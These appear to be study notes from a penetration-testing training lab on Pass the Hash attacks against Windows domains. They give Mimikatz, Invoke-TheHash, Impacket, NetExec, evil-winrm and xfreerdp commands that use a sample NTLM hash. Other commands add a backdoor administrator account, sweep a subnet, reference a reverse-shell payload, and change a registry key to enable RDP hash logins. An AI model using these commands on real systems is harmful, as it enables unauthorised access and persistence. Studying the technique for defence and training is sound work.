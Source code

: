 Let's assume we obtain the password hash (`64F12CDDAA88057E06A81B54E73B949B`) for the account `julio` from the domain `inlanefreight.htb`. Let's see how we can perform Pass the Hash attacks from Windows and Linux machines.

# NTLM

## Pass the Hash with Mimikatz (Windows)

Mimikatz has a module named `sekurlsa::pth` that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password.

```sh
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

![[Pasted image 20250717084003.png]]

## Pass the Hash with PowerShell Invoke-TheHash (Windows)

This tool is a collection of PowerShell functions for performing Pass the Hash attacks with WMI and SMB. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer

When using `Invoke-TheHash`, we have two options: SMB or WMI command execution.

#### Invoke-TheHash with SMB

```powershell
cd C:\tools\Invoke-TheHash\

Import-Module .\Invoke-TheHash.psd1

Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```


> [!NOTE] 
> we can also use a Powershell reverse shell

#### Invoke-TheHash with WMI

```powershell-session
Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "<ANY PS REVERSE PAYLOAD"

[+] Command executed with process id 520 on DC01
```


## Pass the Hash with Impacket (Linux)

#### Pass the Hash with Impacket PsExec

```shell
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

More tools ; 
- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

## Pass the Hash with NetExec (Linux)

#### Pass the Hash with NetExec

```shell
 netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

if we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add `--local-auth` to our command. This method is helpful if we obtain a local administrator hash by dumping the local SAM database on one host and want to check how many (if any) other hosts we can access due to local admin password re-use. If we see `Pwn3d!`, it means that the user is a local administrator on the target computer.

#### NetExec - Command Execution

```shell 
 netexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

## Pass the Hash with evil-winrm (Linux)
If SMB is blocked or we don't have administrative rights, we can use this alternative protocol to connect to the target machine.

#### Pass the Hash with evil-winrm

```shell
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

**Note:** When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

## Pass the Hash with RDP (Linux)

There are a few caveats to this attack:
1. - `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error:
![[Pasted image 20250717085600.png]]
2. This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0. It can be done using the following command:

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

#### Pass the Hash using RDP

```shell
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

## UAC limits Pass the Hash for local accounts

UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

> **Note:** There is one exception, if the registry key `FilterAdministratorToken` (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account.


These settings are only for local administrative accounts. If we get access to a domain account with administrative rights on a computer, we can still use Pass the Hash with that computer.

